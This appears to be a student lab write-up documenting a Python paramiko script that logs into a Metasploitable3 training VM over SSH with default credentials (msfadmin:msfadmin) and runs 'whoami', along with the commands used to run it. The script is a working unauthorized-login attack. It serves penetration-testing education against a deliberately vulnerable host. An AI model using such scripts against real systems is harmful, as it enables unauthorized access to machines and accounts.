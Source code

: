 # Custom Script – SSH Login with Python

This part shows how we created a simple Python script to log into Metasploitable3 over SSH using default credentials.

## Target Info

- IP Address: 172.28.128.3
- Port: 22
- Username: msfadmin
- Password: msfadmin

## What We Did

We wrote a basic script using Python and the paramiko library. It connects to the target’s SSH service, logs in with the credentials, and runs the command `whoami` to confirm access.

## The Script (ssh_brute.py)

```python
import paramiko

target_ip = "172.28.128.3"
username = "msfadmin"
password = "msfadmin"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

try:
    print(f"[+] Trying {username}:{password}")
    client.connect(target_ip, username=username, password=password, timeout=5)
    print("[+] Login successful!")

    stdin, stdout, stderr = client.exec_command("whoami")
    print("[+] Command output:", stdout.read().decode())

    client.close()
except paramiko.AuthenticationException:
    print("[-] Login failed.")
```

## How We Ran It

We saved the script as `ssh_brute.py` inside Kali and ran it using:

```bash
python3 ssh_brute.py
```

Before running it, we installed paramiko with:

```bash
sudo apt install python3-paramiko
```

## Result

The script logged in successfully and showed that the current user was `msfadmin`.

## Screenshot

We took a screenshot showing the terminal output after running the script.  
The file is saved as: `custom_script_attack.png`

This completes Task 1.2 for Phase 1.
